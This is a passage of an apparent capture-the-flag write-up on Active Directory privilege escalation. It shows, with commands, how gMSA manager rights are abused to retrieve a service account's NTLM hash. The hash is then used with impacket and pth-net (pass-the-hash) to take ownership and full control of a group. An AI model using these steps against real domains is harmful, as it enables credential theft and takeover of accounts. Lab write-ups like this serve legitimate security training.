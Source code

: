 ```python
(Get-Acl "AD:\$($backupuser.DistinguishedName)").Access | Where-Object {$_.IdentityReference -like '*gMSA_Manage'}
```
<br/><br/>
Other options to shortcut this enumeration could be:
<br/><br/>
- `get writeables` in `bloodyAD`
- Find-`InterestingDomainAcl` in `PowerView.ps1` module
<br/><br/>
Once we know gMSA managers can set Haze-IT-Backup property to retrieve its managed password we proceed to abuse this
<br/><br/>
```python
Set-ADServiceAccount -Identity "Haze-IT-Backup" -PrincipalsAllowedToRetrieveManagedPassword "mark.adams"
```
<br/><br/>
![image.png]({{ '/assets/images/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f_image_20.png' | relative_url }})
<br/><br/>
This misconfiguration can be leverage to obtain the NTLM hash of the backup account
<br/><br/>
```python
nxc ldap ip -u user -p password --gmsa
```
<br/><br/>
![image.png]({{ '/assets/images/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f_image_21.png' | relative_url }})
<br/><br/>
Haze-IT-Backup has WriteOwner permissions over support_services group, but seems to be something else to investigate
<br/><br/>
![image.png]({{ '/assets/images/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f_image_22.png' | relative_url }})
<br/><br/>
Execute the `bloodhound-python` collector again, this time using backup user’s credentials
<br/><br/>
![image.png]({{ '/assets/images/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f_image_23.png' | relative_url }})
<br/><br/>
Now the path forward is clearer
<br/><br/>
![image.png]({{ '/assets/images/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f_image_24.png' | relative_url }})
<br/><br/>
Set `haze-it-backup` as the new owner of `support_services` and grant it `full-control` over the group
<br/><br/>
```python
impacker-owneredit -action write -new-owner 'new-owner' -target-dn 'target-dn' 'domain'/'user' -no-pass -hashes :hash
impacket-dacledit -action write -rights FullControl -principal 'attacker' -target-dn 'target-dn' 'domain'/'user' -no-pass -hashes :hash
#Or without imapcket 
pth-net rpc group addmem "SUPPORT_SERVICE" attackeruser -U 'domain'/'attacker'%'fffto_supply_right_format':'hash' -S ip
```
<br/><br/>
![image.png]({{ '/assets/images/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f_image_25.png' | relative_url }})
<br/><br/>
![image.png]({{ '/assets/images/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f/605877c5-9868-4437-874b-258fe0b8d05d-export-d3087789-ca72-4924-b87a-29a7d4710b9f_image_26.png' | relative_url }})
<br/><br/>
We have three options right now:
<br/><br/>
- Change edward.martin password’s (Faster but not a clean OPSEC, and not allowed in this machine)